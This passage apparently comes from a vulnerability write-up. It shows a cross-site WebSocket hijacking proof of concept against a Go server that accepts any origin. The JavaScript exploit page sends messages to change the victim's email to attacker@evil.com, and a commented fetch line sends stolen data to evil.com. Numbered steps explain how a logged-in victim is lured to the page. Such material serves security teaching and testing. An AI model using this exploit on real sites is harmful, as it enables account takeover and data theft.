 ```HTML
                action: "perform_action",
                target: "victim_account_settings",
                change: "update_email_to_attacker@evil.com"
            });
            ws.send(anotherMaliciousMessage);
            document.getElementById('output').innerHTML += '<p>PoC: Sent another malicious message: ' + anotherMaliciousMessage + '</p>';
        };

        ws.onmessage = function(event) {
            let receivedMsg = 'PoC: Received data from ' + wsUrl + ': ' + event.data;
            console.log(receivedMsg);
            document.getElementById('output').innerHTML += '<p style="color:blue;">' + receivedMsg + '</p>';

            // Attacker can exfiltrate this data.
            // For example, send it to an attacker-controlled server:
            // fetch('https://evil.com/log_exfiltrated_data?data=' + encodeURIComponent(event.data));
        };

        ws.onerror = function(error) {
            let errorMsg = 'PoC: WebSocket Error for ' + wsUrl + ': ' + JSON.stringify(error);
            console.error(errorMsg);
            document.getElementById('output').innerHTML += '<p style="color:red;">' + errorMsg + '</p>';
        };

        ws.onclose = function(event) {
            let closeMsg = 'PoC: WebSocket connection to ' + wsUrl + ' closed. Code: ' + event.code + ', Reason: ' + event.reason;
            console.log(closeMsg);
            document.getElementById('output').innerHTML += '<p>' + closeMsg + '</p>';
        };
    </script>
</body>
</html>
```

**3. Exploitation Steps:**

1. The attacker hosts `exploit.html` on their server, accessible via `http://evil.com/exploit.html`. (For local testing, save it as an HTML file and open it in the browser).
2. The victim first logs into `https://vulnerable.com` (or `http://localhost:8080/login` in the local PoC), establishing an authenticated session and receiving a session cookie.
3. The attacker tricks the victim into visiting `http://evil.com/exploit.html`.
4. The JavaScript on `exploit.html` executes in the victim's browser.
5. The `new WebSocket('ws://localhost:8080/ws')` call initiates a WebSocket handshake request. The victim's browser automatically includes the `session_id` cookie for `localhost:8080` (or `vulnerable.com`). The `Origin` header of this request will be `http://evil.com` (or `null` / `file://` if opened locally, which many permissive `CheckOrigin` functions allow).
6. The vulnerable Golang server at `localhost:8080/ws` receives the request. Because `CheckOrigin` returns `true`, it accepts the connection despite the mismatched/untrusted origin. It sees the `session_id` cookie and processes the WebSocket connection as if it were a legitimate, same-origin request from the victim.
7. The `ws.onopen` function in `exploit.html` fires. The attacker's script can now:
    - Send messages (`ws.send(...)`) to the server. These messages will be processed by the server under the victim's authenticated session.
    - Receive messages (`ws.onmessage =...`) sent by the server to the victim, effectively exfiltrating data.
8. The server logs will show messages being received from the victim's session, but these are actually being sent by the attacker's script.
